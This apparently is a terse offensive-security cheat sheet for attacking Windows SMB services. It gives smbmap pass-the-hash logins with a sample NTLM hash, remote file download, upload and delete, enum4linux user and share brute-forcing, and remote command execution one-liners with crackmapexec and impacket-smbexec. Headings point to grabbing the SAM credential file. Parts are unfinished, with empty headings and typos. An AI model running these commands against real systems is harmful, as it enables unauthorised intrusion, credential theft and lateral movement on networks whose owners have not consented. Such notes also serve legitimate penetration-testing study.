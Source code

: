`smbmap` File Mapping + PassTheHash Attack

```xml
**Tasrget**
-H target ip
-P target port (445)
**Credentials[Login With Hash PasstheHash]**
-u user with 
-p password/NTLM
**Files Options**
--download PATH       Download a file from the remote system, ex.'C$\temp\passwords.txt'
--upload SRC DST      Upload a file to the remote system ex. '/tmp/payload.exe C$\temp\payload.exe'
--delete PATH TO FILE Delete a remote file, ex. 'C$\temp\msf.exe'

-x execute commands
-R list every shared file in any directory
-v host system version only
**Examples:**
$ smbmap -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -H 172.16.0.20
$ smbmap -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'
```

`enum4linux enum ip -a` System info

```
**Enumeration**
-a        Do all simple enumeration (-U -S -G -P -r -o -n -i).
-d        be detailed, applies to -U and -S
**Credential Brute Force**
-u user   specify username to use (default "")
-p pass   specify password to use (default "")
-l        Get some (limited) info via LDAP 389/TCP (for DCs only)
**INFORMATION Brute Force**
-s file   brute force guessing for share names
-k user   User(s) that exists on remote system
         (default: administrator,guest,krbtgt,domain admins,root,bin,none)
          Used to get sid with "lookupsid known_username"
          Get it from rpc "enumdom users"
          Use commas to try several users: "-k admin,user1,user2"
```

### **RCE**

`crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X 'PowerShell Command'` 

`crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x 'Cmd Command'` 

Target WinOS           `impacket-smbexec domain/username:password@ip`

upload files 

Get SAM File

### **Another Tools**
